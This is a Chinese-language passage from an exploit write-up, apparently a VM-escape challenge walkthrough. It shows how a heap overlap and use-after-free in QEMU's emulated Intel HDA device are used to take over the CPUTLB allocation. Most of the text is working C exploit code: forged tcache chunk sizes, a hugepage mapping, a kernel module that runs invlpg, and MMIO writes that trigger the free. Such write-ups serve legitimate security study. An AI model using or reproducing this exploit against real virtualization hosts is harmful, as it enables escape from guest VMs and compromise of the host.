 ```c {hide=true}
}
```

当`rate < 30`时，`new_size = MAX(ceil, 0x40);`，CPUTLB最小申请大小为`0x20*0x40 = 0x800`，所以我们要伪造一个0x810大小的tcache chunk，并使前面构造的overlap chunk能够使用UAF修改CPUTLBEntry。

### 2.1 create overlapped chunk for CPUTLB

在Step1的基础上，伪造一个重叠的0x810大小的chunk：

```c
    /* Step1: overlap */
    set64(1, 0xf8, 0x815);          // fake chunk2.size
    set64(5, 0xf8, 0x415);
    for (int st = 6; st >= 0; st--)
        parse_bdlp(st, 0x10-2);
    set64(6, 0x400, 0x810);         // fake prev_size for chunk2
    set64(6, 0x408, 0xf5);
    parse_bdlp(6, 0x41-2);
```

`INVLPG` 指令本身没有硬性要求只能在内核态下执行，但由于其涉及对内存管理和缓存的直接操作，通常只有内核态程序才会使用该指令，用户态程序无法直接使用，因此我们需要写一个驱动来调用用户态函数（驱动代码和编译过程见Exp）：

```c
    system("sysctl -w vm.nr_hugepages=102400");
    system("insmod kfunc.ko");
    kfunc_fd = open("/dev/kfunc", O_RDWR);
    if (kfunc_fd < 0) {
        perror("open");
        exit(1);
    }

    ...
    // 2.1 create overlapped chunk for CPUTLB
    huge = mmap((void *)HUGE_VA, HUGEPAGE_SZ, PROT_READ|PROT_WRITE,
            MAP_FIXED|MAP_PRIVATE|MAP_ANON|MAP_HUGETLB, -1, 0);
    printf("[*] huge: %p\n", huge);

    // invlpg and loop to resize CPUTLB to 0x810 chunk
    *(uint8_t *)huge = 0;
    kfunc(resize_CPUTLB);
```



### 2.2 hijack CPUTLB

访问`huge`使其映射到物理页面，而后在cpl0内核态运行`invlpg`指令，并进行忙循环以获得较低窗口速率。之后释放我们在chunk2处伪造的0x810大小的chunk，再次刷新页面使CPUTLB申请到这个chunk：

```c
    // 2.2 hijack CPUTLB
    *(uint8_t *)huge = 0;
    mmio_write64(hda_mmio_mem, ST_REG(2, ICH6_REG_SD_LVI), 0x9-2);
    kfunc(hijack_CPUTLB);
    mmio_write64(hda_mmio_mem, ST_REG(2, ICH6_REG_SD_CTL), SD_CTL_STREAM_RESET);
```
